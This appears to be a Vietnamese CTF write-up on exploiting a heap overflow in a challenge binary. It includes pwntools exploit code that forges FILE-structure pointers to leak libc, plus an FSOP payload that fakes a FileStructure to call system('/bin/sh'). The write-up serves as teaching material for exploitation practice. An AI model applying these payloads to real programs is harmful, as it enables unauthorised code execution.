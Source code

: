 
### EXPLOIT


vậy ở đây ta chỉ có 1 bug `heap overflow` , đầu tiên trước hết ta sẽ cần `leak libc` để get_shell 

đây sẽ là đoạn `stream` của ta sau khi dùng option3 : 

![image](https://hackmd.io/_uploads/Hk5nM1rD1e.png)

ta thấy nó giữ 1 con trỏ `0x0000000000406690` trỏ đến dư liệu của ta

![image](https://hackmd.io/_uploads/BJrL7JrD1x.png)

- vậy lúc này ta chỉ cần fake con trỏ đó làm cho nó trỏ đến địa chỉ ta leak 

```c

payload = b"A"*0x28 + p64(0x1e1)
payload += p64(0xfbad2488) # flags
payload += p64(0x403f88) # read_ptr
payload += p64(0x403f88+8) # read_end
payload += p64(0x403f88) # read_base

p.sendlineafter(b'Choice: ',b'1')
p.sendafter(b"What's your name: ",payload)

p.sendlineafter(b'Choice: ',b'3')

p.recvuntil(b'ce:')
p.recvline()
libc.address = u64(p.recvline()[:-1].ljust(8,b'\x00')) - libc.sym.puts
log.info(f'libc: {hex(libc.address)}')
```

![image](https://hackmd.io/_uploads/rk8DIJBvkg.png)

- ở đây khi có libc rồi thì ta tạo shell , và may mắn là ta cũng có thể ghi bất kỳ đâu trong bộ nhớ bằng ```struct_file``` thứ 2 cho phép ta ghi dữ liệu , ta sẽ setup giống anh này : 

https://github.com/nobodyisnobody/write-ups/blob/main/GlacierCTF.2023/pwn/Write.Byte.Where/README.md

```
# build our FSOP payload
# some constants
stdout_lock = libc.address + 0x240710   # _IO_stdfile_1_lock  (symbol not exported)
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
# our gadget
gadget = libc.address + 0x000000000014a870 # add rdi, 0x10 ; jmp rcx

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']            # the function that we will call: system()
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh'.ljust(8,b'\x00'))  # will be at rdi+0x10
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200          # _wide_data just need to points to empty zone
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)
```

